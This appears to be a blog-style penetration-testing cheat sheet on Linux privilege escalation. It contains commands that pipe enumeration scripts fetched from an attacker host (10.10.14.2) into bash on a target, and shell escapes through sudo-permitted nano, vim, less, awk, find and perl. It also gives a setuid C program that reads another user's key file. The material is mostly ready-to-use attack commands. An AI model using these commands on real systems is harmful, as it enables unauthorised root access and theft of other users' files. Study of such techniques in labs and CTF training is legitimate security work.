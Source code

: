 ```yaml
---
author: "Marcos Azevedo"
date: 2020-06-16
linktitle: "Cheat Sheet :: Privilege Escalation"
title: "Cheat Sheet :: Privilege Escalation"
categories: [ "cheatsheet", "exploitation-techniques", "priv-escalation" ]
tags: [ "cheatsheet", "priv-escalation", "exploitation-techniques" ]
weight: 10
---
```


# Privilege Escalation

## Using scripts to enum the machine
- [https://github.com/rebootuser/LinEnum](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- On the target's machine we can do:
```
$ curl 10.10.14.2/linpeas.sh|bash
$ curl 10.10.14.2/LinEnum.sh|bash
```

-----
## Nano privilege escalation
- This can be used to gain root access on the server.
```
sudo -u root /bin/nano /opt/priv
```

- Nano allows inserting external files into the current one using the shortcut.
```
Ctrl+R
```

/pics/nano-001.png

- The command reveals that we can execute system commands using **^X (Press Ctrl+X)** and enter the following command to spawn a shell.
```
Press Ctrl+X
reset; sh 1>&0 2>&0
```

/pics/nano-002.png

- Now we have a root shell.
/pics/nano-003.png

-----
## Sudo privilege escalation
### Listing allowed ``sudo`` commands
```
$ sudo -l
```

### Impersonating with ``sudo``
```
$ sudo -u victim command
```

### Escalating privileges with ``find`` command
```
$ sudo -u victim /usr/bin/find -exec /bin/bash \;
```

### Escalating privileges with ``vim`` editor
```
$ sudo -u victim /usr/bin/vim

# Inside the vim we can call a shell
:!/bin/bash
```

### Escalating privileges with  ``less`` command
- Open a file using less
```
$ sudo -u victim less /home/victim/key.txt
```

- Inside the less we can call a shell
```
!/bin/bash
```

### Escalating privileges with ``awk`` command
```
# Reading files with awk
$ sudo -u victim /usr/bin/awk '{print $1}' /home/victim/key.txt

# Executing command within awk
$ sudo -u victim /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

### Escalating privileges with ``chmod``

- Create the exploit to call a command
```
#include<stdio.h>

int main(void)
{
    system("cat /home/victim/key.txt");
}
```

- Compiling the exploit
```
$ cd /tmp
$ gcc exploit.c -o exploit
```

- Setting the __setuid__ and __setgid__ flags
```
$ sudo -u victim cp exploit exploit2
$ sudo -u victim chmod +xs exploit2
$ ./exploit2
```

### Escalating privileges with ``perl``
```
$ sudo -u victim perl -e 'exec "/bin/bash";'
```

